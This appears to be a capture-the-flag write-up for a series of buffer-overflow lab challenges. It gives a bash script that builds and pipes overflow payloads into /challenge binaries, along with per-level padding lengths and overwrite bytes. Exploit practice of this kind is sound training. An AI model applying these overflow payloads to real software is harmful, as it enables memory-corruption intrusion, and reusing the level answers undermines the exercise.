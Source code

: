 # Memory Errors

**memory.sh** 	`chmod +x ./memory.sh`

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
string=$2
append_string=$(echo -e "$string")

string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "$payload_size $string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

## Level 1.0

`/challenge/babymem_level1.0`

On the last line of the output it's written:
`The "win" variable is stored at 0xXXXXXXXXX, $n bytes after the start of your input buffer.`

The paylod size will be $\$n+1$. After that just type $\$n+1$ characters.

## Level 1.1

`./memory.sh 121`

## Level 2.0

`./memory.sh 104 "\x82\x92\xaa\x66"`

`printf "108 11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x82\x92\xaa\x66" | /challenge/babymem_level2.0`

## Level 2.1

`./memory.sh 76 "\xf4\x9e\xb6\x53"`

`printf "80 1111111111111111111111111111111111111111111111111111111111111111111111111111\xf4\x9e\xb6\x53"
 | /challenge/babymem_level2.1`
